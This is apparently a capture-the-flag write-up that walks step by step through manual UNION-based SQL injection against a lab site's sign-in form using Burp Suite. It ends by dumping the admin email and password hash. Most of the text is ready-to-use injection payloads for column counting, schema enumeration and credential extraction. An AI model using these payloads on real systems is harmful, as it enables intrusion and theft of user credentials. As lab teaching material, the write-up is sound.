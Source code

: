 **A tutorial for manually exploiting sqli in the sign in page without sqlmap but with burpsuite**

![image](https://user-images.githubusercontent.com/87831546/142857492-a15dd841-8ef9-47b4-b074-ff0827e1c11d.png)

1) Confirm sql injection ('# comments out any query after it):
```
email=a@a.com'#&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142857635-483e64f9-b383-48e3-a81a-ae49017f7460.png)

2) Find number of columns with ORDER BY, increasing the order of numbers until we get an error
```
email=a@a.com' order by 4-- -&password=esdfs
```
order by 4 works, but order by 5 gives us an error telling us that there are 4 columns
![image](https://user-images.githubusercontent.com/87831546/142857961-b7333efa-0fae-47b9-b8fe-cbe2a87aa4d5.png)
![image](https://user-images.githubusercontent.com/87831546/142858071-7ec1ede4-8bae-4831-aef8-bada640b2bd2.png)

3) Find columns with useful data type to see if we can see the outcome of queries. We find that only the last column displays output to use
```
email=a@.com' UNION SELECT NULL,NULL,NULL,'test'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858377-8c3d41cc-6858-42b1-8b05-706eb6dfa9e5.png)

4) Find databse names - gives us an interesting table name called 'user'
```
email=a@a.com' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables -- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858532-ceff2ce1-5b8b-47dc-97e4-5eba5ef5e9a5.png)

5) Find columns for the user data (id, email, password, name)
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name='user'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858926-da72f95e-3649-49e9-8ad8-c8b304877291.png)


6) Find that an admin user exists
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,name FROM user-- -&password=esdfs
```
(returns two users, admin and a. a is a user i registered on the site)
![image](https://user-images.githubusercontent.com/87831546/142859633-5bfb8a1e-ed6c-44b0-9ca3-90b23986dad3.png)

7) Dump the email and password from the admin user
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,email FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859858-88a6fcae-13dc-4b35-bf97-134547a10047.png)

```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,password FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859540-67379753-b541-47ce-a866-2e2b1f81f0ce.png)

And we get the same data that sqlmap gave us!
```
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

One thing to note is that all results seem to strangely precede with an 'a', just miss this out of all results

